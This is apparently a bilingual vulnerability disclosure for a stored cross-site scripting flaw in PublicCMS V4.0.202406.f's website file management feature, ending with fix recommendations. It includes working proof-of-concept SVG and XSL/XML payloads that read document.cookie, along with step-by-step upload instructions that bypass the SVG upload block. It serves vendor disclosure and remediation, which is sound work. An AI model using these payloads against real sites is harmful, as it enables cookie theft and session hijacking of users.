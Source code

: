 ## Vulnerability Author: 

c0rdXy

## Affected Version: 

PublicCMS V4.0.202406.f

![image-20250108151648112](XSS_02.assets/image-20250108151648112.png)

## Vendor:

www.publiccms.com

https://github.com/sanluan/PublicCMS

https://github.com/sanluan/PublicCMS/releases

## Vulnerability File:

com/publiccms/controller/admin/cms/CmsWebFileAdminController.java

## Vulnerability Description:

PublicCMS V4.0.202406.f was discovered to contain a cross-site scripting (XSS) vulnerability via a crafted script to the Category Managment feature

## Vulnerability hazards

After a successful attack using XSS code, malicious users may get high permissions. The XSS vulnerability mainly has the following hazards:

1. Steal various user accounts;
2. Steal the user's Cookie information, impersonate the user's identity to enter the website;
3. Hijack user sessions and perform arbitrary operations; Refers to operating the user's browser;
4. Brush stream display, execution of commercial advertising;
5. Spread worms;
6. And so on...

## Payload_1

### svg

Open the Website File Management function point in the File ribbon and click the Create File button.

打开文件功能区中的网站文件管理管理功能点，点击创建文件按钮。

![image-20250109143352386](XSS_02.assets/image-20250109143352386.png)

Create an svg file, enter the following content, and save it.

创建一个svg文件，输入下列内容，然后保存。

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert(document.cookie);</script>
</svg>
```

![image-20250109143420194](XSS_02.assets/image-20250109143420194.png)

Same reason.

同理。

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert('XSS');</script>
</svg>
```

![image-20250109143501337](XSS_02.assets/image-20250109143501337.png)

Click the View button.

点击查看按钮。

![image-20250109143612532](XSS_02.assets/image-20250109143612532.png)

The XSS vulnerability is successfully triggered and the current cookie information is obtained.

成功触发XSS漏洞，获取到当前的Cookie信息。

![image-20250109143620956](XSS_02.assets/image-20250109143620956.png)

![image-20250109143629028](XSS_02.assets/image-20250109143629028.png)

### xml

Similarly, upload the xml file and put the following code in respectively. Note that two xml files need to be uploaded here.

The first xml file.

同理上传xml文件，分别放入如下代码，注意，此处需要上传两个xml文件。

第一个xml文件。

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html><body>
<script>alert(document.cookie);</script>
</body></html>
</xsl:template>
</xsl:stylesheet>
```

![image-20250109143730317](XSS_02.assets/image-20250109143730317.png)

In the second XML file, put the URL of the first XML file in the href attribute.

第二个xml文件，在其中的href属性中放入第一个xml文件的URL。

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<?xml-stylesheet type="text/xsl" href="http://127.0.0.1:8080/webfile/1.xml"?>
<test></test>
```

![image-20250109143801740](XSS_02.assets/image-20250109143801740.png)

At this time, click to view the second XML file and successfully trigger the XSS vulnerability.

此时点击查看第二个xml文件，成功触发XSS漏洞。

![image-20250109143840042](XSS_02.assets/image-20250109143840042.png)

Same reason.

同理。

![image-20250109143927869](XSS_02.assets/image-20250109143927869.png)

![image-20250109143936838](XSS_02.assets/image-20250109143936838.png)

![image-20250109143944942](XSS_02.assets/image-20250109143944942.png)

## Payload_2

Click the Upload File button.

点击上传文件按钮。

![image-20250109151630058](XSS_02.assets/image-20250109151630058.png)

When trying to upload an svg file, it says the file is unsafe and cannot be uploaded.

尝试上传svg文件，提示文件不安全，无法上传。

![image-20250109151704662](XSS_02.assets/image-20250109151704662.png)

At this point we try to upload the xml file and it is uploaded successfully.

此时我们尝试上传xml文件，成功上传。

![image-20250109151751847](XSS_02.assets/image-20250109151751847.png)

![image-20250109151813694](XSS_02.assets/image-20250109151813694.png)

We continue to upload the second XML file and then check it. The XSS vulnerability is successfully triggered.

我们继续上传第二个xml文件，然后查看。成功触发XSS漏洞。

![image-20250109151842024](XSS_02.assets/image-20250109151842024.png)

![image-20250109151857809](XSS_02.assets/image-20250109151857809.png)

## Modification suggestion

* It is recommended to encode the input and output parameters in an entity format.
* It is recommended that you do not enable the online viewing function for svg and xml, and click to view the source file directly.
* It is recommended to prohibit illegal file uploading.
